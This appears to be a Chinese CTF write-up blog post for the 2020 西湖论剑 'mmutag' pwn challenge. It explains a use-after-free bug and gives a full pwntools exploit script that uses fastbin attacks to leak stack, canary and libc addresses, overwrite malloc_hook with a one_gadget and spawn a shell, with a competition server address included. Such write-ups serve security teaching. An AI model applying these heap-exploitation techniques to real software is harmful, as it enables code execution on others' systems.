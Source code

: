 ```yaml
---
layout: post
title: 西湖论剑2020
description: pwn-mmutag
categories: CTF/PWN


---
```




<!-- more -->

# 前言

这道题非常简单,第一种方法是fastbin_attack返回到栈中，然后泄漏canary和libc，然后覆盖返回地址为One_Gadget

我自己脑子抽风用了第二种方法，也是提升自己布置堆风水的能力

# 逻辑分析

1.这道题一开始给了我们一个gift:栈上的地址，分配堆的大小都是0x68,有个UAF的漏洞，但是只能布置10个堆，同时可以修改栈上的内容，并输出栈上的内容

![](/images/character8/mmutag1)

# 思路

首先这道题无论分配和释放都只能用到fastbin,所以只能用fastbin_attack,同时给了我们栈上的地址,且能输出栈上的内容,那毫无疑问是用fastbin_attack分配到栈中泄漏地址和ROP了,但同时我们可以注意到我们分配的栈上的地址是0x7f开头的,我们可以控制bss段heap的分配位置，如果我们能构成p64(0x7f)，也是能分配到bss上进行操作的,所以我运用了堆的思想又分配到了bss段中，这样可以多次使用fastbin_attack了，然后fastbin_attack分配到malloc_hook-0x23将malloc_hook修改为one_gadget然后getsehll

# 代码

```python
from PwnContext import *
try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')
if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h'] # uncomment this if you use tmux
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
    debugg = 1
    logg = 0
    ctx.binary = './mmutag'
    ctx.remote_libc = './libc.so.6'
    ctx.debug_remote_libc = False # True for debugging remote libc, false for local.
    #ctx.breakpoints = [0x,0x]
    ctx.symbols = {'heap_pool':0x6020c0}
    if debugg:
    	rs()
    else:
		ctx.remote = ('183.129.189.62', 58604)
		rs(method = 'remote')
    if logg:
	    context.log_level = 'debug'
    libc = ctx.libc # ELF object of the corresponding libc.
    def Choice(num):
    	sla('choise:',num)
    def Add(idx,content=" "):
    	Choice(1)
    	sla('id:',idx)
    	sa('content',content)
    	ru('OK')
    def Del(idx,):
    	Choice(2)
    	sla('id',idx)
    	ru('OK')
    def Set_stack(content):
    	Choice(3)
    	s(content)
    	ru('Your')
    context.arch = "amd64"
    payload = p64(0)+p64(0x71)+p64(0)+p64(0)
    sla('please input you name:',payload)
    ru("this is your tag: 0x")
    stack_addr = r(12)
    stack_addr = int(stack_addr,16)
    success("stack_addr:0x%x",stack_addr)
    sleep(0.1)
    sla('choice',2)
    Add(3)
    Add(4)
    Del(3)
    Del(4)
    Del(3)
    payload = p64(0)+p64(0x71)+p64(0)+p64(0)
    Set_stack(payload)
    Add(5,p64(stack_addr-0x40))
    Add(6)
    Add(7,p64(0))
    Add(1,'a'*0x40+'b'*0x8)
    Set_stack('a'*0x20)
    ru('b'*0x8)
    libc_base = uu64(r(6))-0x20840
    success('libc:0x%x',libc_base)
    malloc_hook = libc_base + 0x3c4aed
    one_gadget = libc_base + 0xf0364
    Del(3)
    Del(4)
    Del(3)
    payload = p64(0x6020c5)
    Add(8,payload)
    Add(9)
    Add(10)
    Add(2,'\x00'+p64(0)*6)
    Del(10)
    Del(9)
    Del(10)
    Add(3,p64(malloc_hook))
    Add(4)
    Add(5)
    Add(6,'\x00'*3+p64(one_gadget)*8)
    success("one_gadget:0x%x",one_gadget)
    Set_stack('\x00'*0x20)
    success('one_gadget:0x%x',one_gadget)
    Choice(1)
    sla('id:',8)
    irt()
```

如果想看第一种方法的可以参考：https://bbs.pediy.com/thread-262526.htm
